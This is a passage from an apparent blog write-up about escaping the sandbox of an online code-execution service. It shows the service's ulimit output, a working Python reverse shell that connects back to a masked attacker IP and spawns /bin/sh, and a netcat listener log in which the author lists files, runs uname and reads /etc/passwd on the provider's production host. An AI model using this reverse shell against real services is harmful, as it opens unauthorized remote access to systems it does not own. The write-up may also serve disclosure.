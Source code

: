 The result I got was this:

```text
core file size          (blocks, -c) 0
data seg size           (kbytes, -d) unlimited
scheduling priority             (-e) 0
file size               (blocks, -f) unlimited
pending signals                 (-i) 13371
max locked memory       (kbytes, -l) 64
max memory size         (kbytes, -m) unlimited
open files                      (-n) 1024
pipe size            (512 bytes, -p) 8
POSIX message queues     (bytes, -q) 819200
real-time priority              (-r) 0
stack size              (kbytes, -s) 8192
cpu time               (seconds, -t) 3
max user processes              (-u) 3
virtual memory          (kbytes, -v) 102400
file locks                      (-x) unlimited
```

As you could see from the above output we were limited to just 3 users
processes... Apparently, I wasn't going to get my shell so easily so I
had to think up something else...

## Launching the second attack

It was time to launch a second attack, but this time using
`os.execv()` instead of `subprocess.call()`

So, I've started my netcat listener again, and then used this script
for my reverse shell:

```python
import socket
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('x.x.x.x', 80))

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)

os.execv('/bin/sh', ['-i'])
```

The result this time was this:

```bash
$ sudo nc -l 80 

pwd
/tmp/tmpEMZgWN

ls -la 
total 4
drwx------ 3 39540956 1002    0 Mar  4 18:22 .
drwx--x--x 4     1001 root 4096 Mar  4 18:22 ..
-rw------- 1 39540956 1002  263 Mar  4 18:22 program.py

uname -a 
Linux prod-terminal00-eu-west-1 3.8.0-35-generic #50-Ubuntu SMP Tue Dec 3 01:24:59 UTC 2013 x86_64 x86_64 x86_64 GNU/Linux

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
```